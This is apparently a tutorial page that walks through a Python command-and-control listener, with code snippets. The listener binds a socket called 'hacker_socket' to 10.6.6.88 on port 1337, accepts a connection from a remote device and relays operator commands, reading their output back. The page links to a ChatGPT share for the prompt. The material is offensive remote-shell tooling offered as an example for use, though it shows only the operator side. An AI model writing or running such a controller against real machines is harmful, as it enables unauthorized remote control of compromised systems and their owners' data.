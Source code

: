 # Example of Creating a C2 Using Python
Let's create a Python script that sets up a listener to communicate with a remote device. The listener waits for a connection, then allows the user to send commands to the remote device. 
🤖 Checkout [this prompt in ChatGPT](https://chat.openai.com/share/a8399b03-9d33-444a-bce3-e7995d351316)

Here's a breakdown of the code:

1. **Importing Required Module**:
   ```python
   import socket
   ```
   The script imports the `socket` module, which provides a way for Python to interact with network sockets.

2. **Identifier Constant**:
   ```python
   IDENTIFIER = "<END_OF_COMMAND_RESULT>"
   ```
   This string serves as an identifier to determine the end of a command result.

3. **Main Script Execution**:
   The script uses an `if __name__ == "__main__":` block to ensure that the code inside it only runs if the script is executed directly (and not imported as a module).

4. **Setting Up the Socket**:
   ```python
   hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   ```
   A new TCP socket (`SOCK_STREAM`) is created for IPv4 communication (`AF_INET`).

5. **Socket Address Configuration**:
   ```python
   IP = "10.6.6.88"
   Port = 1337
   socket_address = (IP, Port)
   ```
   The IP address and port for the listener are defined.

6. **Binding and Listening**:
   ```python
   hacker_socket.bind(socket_address)
   hacker_socket.listen(5)
   print("listening for incoming connection requests")
   ```
   The socket is bound to the specified IP address and port, and it starts listening for incoming connections with a backlog of 5.

7. **Accepting Connections**:
   ```python
   hacker_socket, client_address = hacker_socket.accept()
   print("connection established with ", client_address)
   ```
   The script waits for a connection. When one is established, it prints the client's address.

8. **Command Loop**:
   The main loop of the script lets the user input commands to send to the connected device:
   - If the command is "stop", the socket closes and the script ends.
   - If the command is empty, the loop continues without sending anything.
   - If the command starts with "cd", it sends the command and moves to the next iteration.
   - For other commands, it sends the command and waits for a response. The response is received in chunks and the loop continues until the `IDENTIFIER` is found.

9. **Exception Handling**:
   If any exception occurs during command execution or communication, the script prints "Exception occurred" and closes the socket.


